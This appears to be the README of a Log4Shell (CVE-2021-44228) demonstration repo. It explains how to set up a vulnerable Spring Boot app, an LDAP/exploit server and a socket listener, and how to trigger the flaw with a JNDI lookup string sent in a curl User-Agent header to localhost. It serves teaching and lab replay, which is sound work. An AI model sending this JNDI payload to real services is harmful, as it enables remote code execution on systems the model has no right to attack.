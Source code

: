 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

## Setup

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

## Run Demo

### Start Web Application with vulnerable Log4j

* In Folder *vulnerable-spring-boot-web-app* build with 

* With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`

### Start Exploit & LDAP Servers

* Run `L4sexploitApplication`

### Start Socketlistener

* Run `ExploitServer`

### Call Exploit

* Call `curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### It does not work

* Did you add `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` for newer Java SDKs?
* Did you install the *marshalsec* JAR in your local Maven repo?
* Did you remove/uncomment the assembly Maven plugin when building *marshalsec* JAR?
